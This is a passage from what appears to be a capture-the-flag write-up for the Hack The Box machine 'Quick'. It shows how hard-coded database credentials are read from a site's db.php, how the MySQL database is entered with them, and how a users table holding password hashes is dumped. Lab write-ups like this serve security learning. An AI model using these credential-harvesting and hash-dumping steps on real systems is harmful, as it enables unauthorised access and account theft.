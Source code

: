 The hostname _printerv2.quick.htb_ has to be put into our _/etc/hosts_ file to reach it and the website is hosted on port 9001 and shows some login form:

![Printer Login form](quick_web-5.png)

We have access to the web files and the file _index.php_ shows a username that can access this page:
```
if($num_rows > 0 && $email === "srvadm@quick.htb")
```

The file _db.php_ has credentials to access the MySQL database:
```
$conn = new mysqli("localhost","db_adm","db_p4ss","quick");
```

Connecting to the MySQL database:
```
mysql -u db_adm -p
```

Searching through the database to get user information:
```
mysql> show databases;

mysql> use quick;

mysql> show tables;

mysql> select * from users;
```
```
+--------------+------------------+----------------------------------+
| name         | email            | password                         |
+--------------+------------------+----------------------------------+
| Elisa        | elisa@wink.co.uk | c6c35ae1f3cb19438e0199cfa72a9d9d |
| Server Admin | srvadm@quick.htb | e626d51f8fbfd1124fdea88396c35d05 |
+--------------+------------------+----------------------------------+
```
